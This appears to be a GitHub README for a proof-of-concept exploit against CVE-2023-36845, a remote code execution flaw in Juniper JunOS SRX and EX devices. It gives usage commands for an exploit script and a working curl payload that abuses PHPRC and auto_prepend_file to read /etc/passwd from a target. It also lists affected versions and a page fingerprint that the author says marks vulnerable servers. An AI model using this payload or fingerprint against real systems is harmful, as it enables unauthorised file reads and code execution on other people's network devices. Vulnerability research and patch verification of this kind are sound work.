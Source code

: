 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:
All versions prior to 20.4R3-S9;
21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.


# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
